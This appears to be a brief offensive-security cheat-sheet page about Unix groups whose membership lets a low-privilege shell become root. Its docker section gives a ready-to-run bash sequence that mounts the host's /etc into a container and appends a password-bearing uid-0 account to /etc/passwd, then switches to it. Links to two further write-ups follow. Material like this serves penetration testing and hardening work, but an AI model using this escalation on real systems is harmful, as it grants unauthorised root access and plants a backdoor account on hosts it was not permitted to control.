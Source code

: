 # Groups that lead to ROOT

> If the low priv shell is member of one the following groups we can upgrade to root.

## docker

We can mount the full file system of the host to gain access to the full system then `chroot` to gain full privileges on the host:

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
echo 'user:saltpasswd:0:0::/root:/bin/bash' >>passwd
tail passwd
su user
#type password and get root
```
More info:

* [Hackingarticles](https://www.hackingarticles.in/docker-privilege-escalation/)

* [Medium-Affix](https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17)
